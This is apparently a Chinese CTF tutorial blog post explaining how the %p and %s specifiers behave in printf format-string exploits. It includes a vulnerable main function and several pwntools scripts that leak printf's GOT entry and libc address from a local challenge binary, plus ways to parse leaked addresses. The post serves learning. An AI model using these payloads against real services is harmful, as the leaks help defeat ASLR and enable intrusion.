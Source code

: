 ```yaml
---
layout:     post
title:      2024-09-16-格式化字符串中的%p和%s
date:       2024-09-16
tags: [PWN,  格式化字符串]
comments: true
author: Whitea
toc: true
---
```


%p 和 %s的区别是什么？int()接收数据还是u64()接收数据？

<!-- more -->

## 前言

最近做题的时候，利用printf的格式化字符串漏洞泄露地址的时候，不知道%p和%s的区别，经过多次测试，这里做个记录

### 1. %p 和 %s的区别

我们先看看两者的区别：

- %p：输出16进制数据(**注意是小端序**)，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是64bit。**常用来泄露格式化参数偏移量**

- %s：输出的内容是字符串，**即将偏移处指针指向的字符串输出**，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，**可用于读取GOT表等信息。**

**补充一下：小端序是指16进制的低位数据，在栈中的位置也是处于低地址。 即 16进制低位 <-> 栈低地址**

### 2. 实例测试

这是某一道题main函数的伪代码：

```
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  char buf[264]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  init(argc, argv, envp);
  while ( 1 )
  {
    read(0, buf, 0x100uLL);
    printf(buf);
  }
}
```

我们主要是关注下面这里两段，输入read()和格式化输出printf()

```
read(0, buf, 0x100uLL);
printf(buf);
```

先测试一下我们输入字符串的偏移量是多少，**一般是用 `%p` 来测试**

<div align=center><img src="../images/2024/09/16/printf1.png" alt="pwn" border="0" width="80%" height="80%"></div>

可以看到是第6位（**以16进制形式打印出栈上的数据**），所以`aaaaaaaa`会以`0x6161616161616161`的形式打印出来。

**我再说一遍，是小端序的结果打印出来，所以第一个`a`所对应的其实是最后一个`61`**。

这里还有我之前做的几个关于格式化字符串的题，建议去看看:

[BaseCTF2024-Week2-PWN](https://whitea133.github.io/BaseCTF2-Pwn/)

这这一篇文章里有两道fmt的基础题，我有讲解如何计算偏移量

现在我们用gdb调试具体看看栈的情况：

**我在read()函数执行时，输入`aaaaaaaa`**

<div align=center><img src="../images/2024/09/16/printf2.png" alt="pwn" border="0" width="80%" height="80%"></div>

**再到printf后的下一步，这时候看看栈上的情况**：

<div align=center><img src="../images/2024/09/16/printf3.png" alt="pwn" border="0" width="80%" height="80%"></div>

可以看到栈数据上的第一位是我们输入的字符串`aaaaaaaa`,所以偏移量为6 (1 + 5 = 6) 

**我们再着重关注一下栈上数据的内容：**

我们知道栈的第一个数据是`aaaaaaaa`,我们又知道刚才 **第六个**`%p`打印出的数据是 `0x6161616161616161` 

<mark>所以我们还能证明 `%p`的作用 就是以16进制的形式，按小端序来打印出对应栈上的内容(同时开头加上了0x)</mark>

**！！注意：明确的了解 %p 作用, 对于我们区分 `%p` 和 `%s` 这两者有很大的帮助**


#### 2.1 %p占位符测试

刚才上面测试出了输入数据的偏移量，还简要分析了一下`%p`的作用

**现在是正式开始测试 `%p`和 `%s`的不同**

这里我测试的脚本如下，先测试打印偏移量为6的数据：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
gdb.attach(io,'b *(0x40122b)') #printf函数前一步的断点
printf_got=elf.got['printf'] #我们要暴露got表中记录printf的地址

payload=b'%aaaa7$p' + p64(printf_got) #已知输入数据的偏移量为6
time.sleep(0.3)
io.sendline(payload)
a = io.recv()
print(a)

io.interactive()
```

我们gdb动态调试到printf函数的下一步，看看情况：

<div align=center><img src="../images/2024/09/16/printf4.png" alt="pwn" border="0" width="85%" height="80%"></div>

先看左边，printf()打印出的内容是`aaaa0x7024362561616161\x083@`

再看右边栈的数据是`0x7024362561616161` （这是偏移量为6的数据），很明显是16进制的。

而再右边的`aaaa%6$p`，这是`0x7024362561616161`16进制前的字符串内容。我们很明显可以看到前面的 `a`，它的十六进制 `61` 居然在后面，**这就是小端序的作用**

我用excel表格给大家画一下：

<div align=center><img src="../images/2024/09/16/printf5.png" alt="pwn" border="0" width="85%" height="80%"></div>

**所以我们总结一下：**

**我们输入的内容为`aaaa%6$p`,printf会进行打印。先打印完`aaaa`，当打印到`%6$p`时会触发占位符的转换，`%6$p`会被替换为偏移量为6的数据，即`0x7024362561616161`**

**所以最终的打印结果为`aaaa0x7024362561616161`**

**至于后面的`\x083@`,目前还没搞懂，但是不用管，我们知道就行，没啥影响。**

我们尝试用 `%p` 来暴露 got表的位置，看看会有什么错误（是的，%p无法用来爆got表）

`%p` 爆got表测试脚本如下：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf']

payload=b'aaaa%7$p' + p64(printf_got) #泄露偏移量为7的数据，即printf_got
time.sleep(0.3)
io.sendline(payload)
a = io.recv()
print(a)

io.interactive()
```

结果如下：

<div align=center><img src="../images/2024/09/16/printf6.png" alt="pwn" border="0" width="85%" height="80%"></div>

可以看到左边打印出的内容是`aaaa0x403308\x083@`

其中 `0x403308`替代了占位符 `%7$p` 的位置。 观察右边就可以看到 `0x403308` 在栈中的位置

**很显然 `0x403308` 只是 printf的got表的位置。**

**而我们要的东西，是printf的got表中，记录printf函数真实地址的数据**

我们要的东西如图所示：

<div align=center><img src="../images/2024/09/16/printf7.png" alt="pwn" border="0" width="85%" height="80%"></div>

可以看到是在 `0x403308` 的右边，即 `0x403308` 指针指向的地址。

而  `%p` 只能帮我们打印出 `0x403308`。

**由此可见， `%p` 无法帮助我们改写got表的地址。**

#### 2.2 %s占位符测试

测试脚本和第一个 `%p` 的一模一样，只是把 `%p` 换成了 `%s`

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
#gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf']

payload=b'aaaa%6$s' + p64(printf_got) #只是把%p换成%s
time.sleep(0.3)
io.sendline(payload)
a = io.recv()
print(a)

io.interactive()
```

测试结果如下：

<div align=center><img src="../images/2024/09/16/printf8.png" alt="pwn" border="0" width="85%" height="80%"></div>

发生了报错。原因是什么呢？

自己看下图：

<div align=center><img src="../images/2024/09/16/printf9.png" alt="pwn" border="0" width="85%" height="80%"></div>

因为我们知道 `%s` 是**以字符串打印出指针所指向的内容**。

这里在偏移量为6的数据，我们的指针是 `0x7324362561616161` ，它指向的内容是什么？？

**根本没有！对吧。 那你还想打印出什么东西？不报错才怪呢。**

不信？

我们修改偏移量为7，看看能不能打印出下一个数据，指针`0x403308` 所指向的内容

测试脚本如下：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
#gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf']

payload=b'aaaa%7$s' + p64(printf_got)
time.sleep(0.3)
io.sendline(payload)
a = io.recv()
print(a)

io.interactive()
```

结果如下：

<div align=center><img src="../images/2024/09/16/printf10.png" alt="pwn" border="0" width="85%" height="80%"></div>

**可以看到这一次成功打印出来了指针`0x403308`所指向的内容，即printf函数的真实地址`0x7522962606f0`**

但是注意，我们仔细看一下左边打印的内容。

**因为我们是按字符串格式打印出的数据，所以他是以类似 `\xf0\x06&\x96"u`这样的格式打印出来的，有些字符可能已经被转换了，如 `26` 变成了 `06&` 中的 `&`**

**这里有一个方法，我们可以观察上面的Received bytes来对照一下有没有接收无误** 

**因为我们一般要接收的东西是形如 `0x123456` 这样的地址，只有这样才方便我们用p64()进行打包发送**

那我们要怎么把 `\xf0\x06&\x96"u` 这样格式的内容变成我们想要的格式呢？

**这里我给出正确的方法：用u64()调整即可**

我们常用的句子如下：

```
function_addr = u64(io.recv(6).ljust(8,b'\x00')) 
print(hex(function_addr))
```

我们利用上述方法改写一下脚本：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf']

payload=b'%7$saaaa' + p64(printf_got) #这里我把aaaa放在占位符后面，因为我们不需要接收aaaa
#aaaa放在占位符前面也行，只是要记得 io.recvuntil('aaaa')
time.sleep(0.3)
io.sendline(payload)

print_addr = u64(io.recv(6).ljust(8,b'\x00')) #recv(6)是接收6个字节
#因为一般的地址开头的两个字节都是00，即\x00\x00 。这里用ljust填补到8字节即可
print(hex(print_addr))
io.interactive()
```

脚本测试结果如下：

<div align=center><img src="../images/2024/09/16/printf11.png" alt="pwn" border="0" width="85%" height="80%"></div>

**完美地取到了我们想要的地址**

所有的测试完毕

### 3. 补充：不同的接收方式

对于打印出来的结果是类似 `0x123456789abc` (**一般是14个字符，包括了0x**)这样的地址

**因为这样的地址类似字符串，每一个字符都是1个字节，包括 0 和 x，所以我们全部接收的话，就要接收14个字节（不能漏掉0x）**

**我们的目的是要把这样的数据,变成数字类型的** `0x123456789abc`

我们的接收方式是:

```
addr=int(io.recv(14),16) #把0x123456789abc的内容全部接收，并字节类型为数字类型
print("addr:" + hex(addr)) #输出地址看看（16进制）
```

对于打印出来的结果是类似 `\x12\x34\x56\x78\x9a\xbc` (**一般分为6组\x，每一组一个字节**)这样的地址。

**这样的地址，前面的是低位，后面的是高位。如这里的 `\x12` 是低位，`\xbc` 是高位。 所以对应的就是 `0xbc9a78563412`**

我们要用以下方法来接收：

```
addr = u64(io.recv(6).ljust(8,b'\x00')) #把6个字节都接收了，并把 \x--\x-- 这样的地址格式变为 0x-------
print(hex(addr)) #输出地址看看（16进制）
```

注意我们最终想要利用的地址都是 `0x123456789abc` 这样的**数字类型**数据

**地址的数据都是8字节，只不过是高位的00被省略掉了而已**

## 结语

好好学，好好练
